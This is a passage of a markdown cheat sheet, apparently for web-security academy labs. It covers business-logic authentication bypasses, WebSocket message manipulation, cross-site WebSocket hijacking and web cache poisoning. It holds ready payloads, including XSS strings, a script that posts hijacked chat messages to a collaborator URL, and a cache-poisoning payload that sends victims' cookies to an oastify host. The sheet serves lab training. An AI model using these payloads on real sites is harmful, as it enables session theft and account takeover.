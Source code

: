 It will process Host Header Injection
11. Password brute-force via password change  
While processing password changing, observe that you can change nickname.
Change it to victim's one and brute his password
## Business logic Authentication vulnerability
1. Authentication bypass via flawed state machine  
If you got the role-selector page, just turn On the Interception and drop this request.  
2. Weak isolation on dual-use endpoint  
Delete current-password parameter and change username to administrator

## WebSockets
Arises at Live Chat page.
### Exploits
1. Manipulating WebSocket messages to exploit vulnerabilities  
Write something in Live Chat. Go to WebSocket History tab in Burp, catch you request and send it to Repeater. Change your message to `<img src=123 onerror=alert()>`
2. Manipulating the WebSocket handshake to exploit vulnerabilities  
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```
3. Cross-site WebSocket hijacking  
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
## Web cache poisoning
Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response. If you got only tracking.js without X-Cache - no cache poisoning here  
If you got both file and header, the first thing you should try is to inject your exploit server into Host: or X-Forwarded-Host: headers and check them in response  
go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`.  
Poison web cache with your server and wait for victim's cookies.  
### Exploits
1. Web cache poisoning with an unkeyed header  
```
X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```
2. Web cache poisoning with an unkeyed cookie  
```
Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```
3. Web cache poisoning with multiple headers  
On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write alert(document.cookie) script.  
```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```
4. Targeted web cache poisoning using an unknown header  